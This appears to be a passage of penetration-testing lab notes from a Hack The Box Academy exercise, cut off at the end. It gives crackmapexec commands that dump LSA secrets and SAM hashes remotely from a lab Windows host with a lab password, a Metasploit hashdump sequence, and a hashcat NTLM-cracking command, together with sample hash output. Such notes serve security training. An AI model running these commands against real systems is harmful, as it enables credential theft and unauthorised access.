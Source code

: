 **Dumping LSA Secrets Remotely**

```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

**Dumping SAM Remotely**

```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

Example output:

```
SMB         10.129.42.198    445    DESKTOP-IATR2O3  [*] Windows 10.0 Build 19041 x64 (name:DESKTOP-IATR2O3) (domain:DESKTOP-IATR2O3) (signing:False) (SMBv1:True)
SMB         10.129.42.198    445    DESKTOP-IATR2O3  [+] DESKTOP-IATR2O3\bob:HTB_@cademy_stdnt! (Pwn3d!)
SMB         10.129.42.198    445    DESKTOP-IATR2O3  [+] Dumping SAM hashes
SMB         10.129.42.198    445    DESKTOP-IATR2O3  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198    445    DESKTOP-IATR2O3  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198    445    DESKTOP-IATR2O3  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198    445    DESKTOP-IATR2O3  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::
SMB         10.129.42.198    445    DESKTOP-IATR2O3  bob:1001:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
SMB         10.129.42.198    445    DESKTOP-IATR2O3  alice:1002:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
```

#### Using Metasploit

```
msf6 > use post/windows/gather/hashdump
msf6 post(windows/gather/hashdump) > set SESSION 1
msf6 post(windows/gather/hashdump) > run
```

### Cracking Extracted Hashes

After extracting hashes, you can attempt to crack them to recover plaintext passwords.

#### Using Hashcat

```bash
sudo hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```

Where:

* `-m 1000` specifies the hash type (NTLM)
* `hash.txt` contains the NT hash

Example:
